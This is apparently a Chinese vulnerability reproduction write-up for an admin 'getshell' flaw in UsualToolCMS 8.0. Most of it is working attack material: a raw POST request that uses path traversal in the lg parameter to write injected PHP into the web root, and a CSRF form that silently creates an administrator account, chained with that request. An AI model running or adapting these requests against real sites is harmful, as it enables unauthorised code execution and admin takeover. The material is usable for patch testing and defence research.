 UsualToolcms 8.0 后台GETSHELL
=============================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

洞点:<http://0-sec.org/cmsadmin/a_lang.php>

13行未对\$lg做判断

![](resource/UsualToolcms8.0后台GETSHELL/media/rId25.png)

![](resource/UsualToolcms8.0后台GETSHELL/media/rId26.png)

![](resource/UsualToolcms8.0后台GETSHELL/media/rId27.png)

点击保存时抓包需要修改url处的lg参数这样就上传到跟目录了，再在post
参数的en后面加入

    en"},<?php phpinfo(); ?>

![](resource/UsualToolcms8.0后台GETSHELL/media/rId28.png)

![](resource/UsualToolcms8.0后台GETSHELL/media/rId29.png)

![](resource/UsualToolcms8.0后台GETSHELL/media/rId30.png)

    POST /UsualToolCMS/cmsadmin/a_langx.php?x=m&lg=../1.php HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_langx.php?lg=lg-en.json
    Cookie: navleft=21; UTCMSLanguage=zh; PHPSESSID=1r5kk3jieflfbnseav3e5dnclo
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 9189

    submit=保存语言包&keys[]=language&values[]=en"},<?php phpinfo(); ?>&keys[]=charset&values[]=utf-8&keys[]=speak&values[]=English&keys[]=web&values[]=UsualToolCMS&key[]=index&value[]=Home&key[]=article&value[]=Article&key[]=product&value[]=Product&key[]=picture&value[]=Picture&key[]=atlas&value[]=Atlas&key[]=contact&value[]=Contact&key[]=about&value[]=About&key[]=forum&value[]=Forum&key[]=register&value[]=Register&key[]=login&value[]=Login&key[]=news&value[]=News&key[]=job&value[]=Job&key[]=wages&value[]=Wages&key[]=application&value[]=Application&key[]=resume&value[]=Resume&key[]=shopcart&value[]=Shopcart&key[]=account&value[]=Account&key[]=member&value[]=Member&key[]=up&value[]=Up&key[]=down&value[]=Down&key[]=more&value[]=More&key[]=new&value[]=New&key[]=authorize&value[]=Authorize&key[]=authenticating&value[]=Authenticating&key[]=qq&value[]=QQ&key[]=membercenter&value[]=Member&key[]=username&value[]=Username&key[]=password&value[]=Password&key[]=forgotpass&value[]=Forgot&key[]=search&value[]=Search&key[]=detail&value[]=Detail&key[]=size&value[]=Size&key[]=spec&value[]=Spec&key[]=color&value[]=Color&key[]=aboutus&value[]=About Us&key[]=newgoods&value[]=New Product&key[]=topgoods&value[]=Top Product&key[]=link&value[]=Link&key[]=confirm&value[]=Confirm&key[]=email&value[]=Email&key[]=title&value[]=Title&key[]=content&value[]=Content&key[]=avatar&value[]=Avatar&key[]=sex&value[]=Sex&key[]=man&value[]=Man&key[]=woman&value[]=Woman&key[]=address&value[]=ADD.&key[]=tel&value[]=Tel&key[]=fax&value[]=Fax&key[]=introduction&value[]=Intro&key[]=validatecode&value[]=Captcha&key[]=changeit&value[]=Change it&key[]=order&value[]=Order&key[]=writeorder&value[]=Write Order&key[]=menu&value[]=Menu&key[]=balance&value[]=Balance&key[]=level&value[]=Level&key[]=writearticles&value[]=Write Articles&key[]=articlemanagement&value[]=Article Admin&key[]=articlebrowse&value[]=Article Browse&key[]=writeonline&value[]=Add New&key[]=payment&value[]=Payment&key[]=registrationtime&value[]=Reg Time&key[]=lastlogintime&value[]=Last Login&key[]=fullname&value[]=Full Name&key[]=privileges:discount&value[]=Privileges:Discount&key[]=state&value[]=State&key[]=source&value[]=Source&key[]=ordernumber&value[]=Order No.&key[]=money&value[]=Money&key[]=time&value[]=Time&key[]=finish&value[]=Finish&key[]=unpaid&value[]=Unpaid&key[]=deliver&value[]=Deliver&key[]=refund&value[]=Refund&key[]=goods&value[]=Goods&key[]=charge&value[]=Charge&key[]=other&value[]=Other&key[]=ordertime&value[]=Order Time&key[]=voucher&value[]=Voucher&key[]=customer&value[]=Customer&key[]=zipcode&value[]=Zip Code&key[]=logistics&value[]=Logistics&key[]=logisticscompany&value[]=Company&key[]=logisticsnumber&value[]=Number&key[]=logisticsdetails&value[]=Details&key[]=paymentmethod&value[]=Method&key[]=alipay&value[]=Alipay&key[]=wechatpay&value[]=Tencent Wechat&key[]=paypal&value[]=Paypal&key[]=waitinganswer&value[]=Waiting&key[]=answered&value[]=Answered&key[]=question&value[]=Question&key[]=reply&value[]=Reply&key[]=tencentaccount&value[]=Tencent&key[]=weiboaccount&value[]=Weibo&key[]=wechataccount&value[]=Wechat&key[]=binded&value[]=Binded&key[]=untie&value[]=Untie&key[]=quantity&value[]=Qty&key[]=parameter&value[]=Parm&key[]=total&value[]=Total&key[]=submit&value[]=Submit&key[]=delete&value[]=Del&key[]=unit&value[]=USD&key[]=actual&value[]=Actual&key[]=feedback&value[]=Feedback&key[]=otheraccount&value[]=Other Accounts&key[]=out&value[]=Out&key[]=ranking&value[]=Ranking&key[]=recommend&value[]=Recommend&key[]=tag&value[]=Tag&key[]=tags&value[]=Tags&key[]=read&value[]=Read&key[]=productdetails&value[]=Product Details&key[]=service&value[]=Service&key[]=category&value[]=Category&key[]=allcategory&value[]=All Category&key[]=stock&value[]=Stock&key[]=price&value[]=Price&key[]=sale&value[]=Sale&key[]=loginview&value[]=Login View&key[]=readme&value[]=Read Me&key[]=popularity&value[]=Popularity&key[]=details&value[]=Details&key[]=message&value[]=Message&key[]=original&value[]=Original&key[]=author&value[]=Author&key[]=pass&value[]=Pass&key[]=audit&value[]=Audit&key[]=return&value[]=Return&key[]=yes&value[]=Yes&key[]=no&value[]=No&key[]=modify&value[]=Modify&key[]=articlemodify&value[]=Article Modify&key[]=type&value[]=Type&key[]=moreupload&value[]=Up to upload&key[]=success&value[]=Success&key[]=fail&value[]=Fail&key[]=upload&value[]=Upload&key[]=uploadtime&value[]=Upload Time&key[]=contactus&value[]=Contact Us&key[]=previouspage&value[]=Prev&key[]=nextpage&value[]=Next&key[]=firstpage&value[]=First&key[]=lastpage&value[]=Last&key[]=totalpage&value[]=Total&key[]=currentpage&value[]=Current&key[]=buy&value[]=Buy&key[]=mailverify&value[]=Email validation&key[]=welcome&value[]=Welcome&key[]=close&value[]=closed&key[]=findpassword&value[]=Find Password&key[]=contactmanager&value[]=Contact Manager&key[]=orderdetaillogin&value[]=For order details,please visit the website.&key[]=enterusername&value[]=Please enter username!&key[]=enterpassword&value[]=Please enter password!&key[]=enteremail&value[]=Please enter Email!&key[]=emailerr&value[]=Email error!&key[]=entertitle&value[]=Please enter title!&key[]=entercontent&value[]=Please enter content!&key[]=selecttype&value[]=Type must be selected!&key[]=enterauthor&value[]=Please enter author!&key[]=enterpasswords&value[]=Please confirm the password!&key[]=passworderr&value[]=The codes don&key[]=entercaptcha&value[]=Please enter captcha!&key[]=captchaerr&value[]=Captcha error!&key[]=mailsenderr&value[]=Mail not sent!&key[]=mailok&value[]=Please check email!&key[]=pleasemailverify&value[]=Please check email for verification!&key[]=mailverifycode&value[]=Email Authentication Code&key[]=mailcopylink&value[]=Please copy the following link&key[]=totalnum&value[]=Total Num&key[]=updateok&value[]=Update successed!&key[]=updateno&value[]=Failed to update!&key[]=payok&value[]=Successful payment!&key[]=payno&value[]=Payment Failed!&key[]=createempty&value[]=Required field is empty!&key[]=createok&value[]=Create successed!&key[]=createno&value[]=Failed to create!&key[]=gotopay&value[]=Go to pay!&key[]=untieok&value[]=Untie successed!&key[]=untieno&value[]=Untie failed!&key[]=delok&value[]=Delete successed!&key[]=delno&value[]=Delete failed!&key[]=regclose&value[]=Website registration closed!&key[]=regmailerr&value[]=Account or email registered!&key[]=loginusererr&value[]=Account does not exist!&key[]=loginpasserr&value[]=Account or password does not match!&key[]=administratorreply&value[]=The administrator has not responded, please wait patiently.&key[]=noscript&value[]=Sorry, your browser disabled JavaScript, it may not be able to use some of the site&key[]=readmecontent&value[]=We guarantee that the outer packing of the goods is in good condition at the time of shipment. When you receive the goods, please carefully check whether the invoice and the goods are consistent with the delivery order. If you find that the goods are missing or damaged, please contact our customer service department on the spot when the delivery personnel are still on the scene; If you find that the package is damaged or the goods are damaged in transit, please point out and refuse to accept it on the spot. After refusal, please call our customer service. If you have signed for it or someone else has signed for it, you will be considered as the packaging, quantity and content of the goods. I will not be able to accept.&key[]=copyright&value[]=Copyright&key[]=cssdisplay&value[]=none&key[]=test&value[]=Test
    请将上面post数据包内容进行url编码

### csrf配合上面的后台getshell

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/cmsadmin/a_adminx.php?x=a" method="POST">
          <input type="hidden" name="username" value="safetest" />
          <input type="hidden" name="roleid" value="1" />
          <input type="hidden" name="password" value="123456" />
          <input type="hidden" name="password_confirm" value="123456" />
          <input type="hidden" name="submit" value="æäº¤" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

![](resource/UsualToolcms8.0后台GETSHELL/media/rId32.shtml)
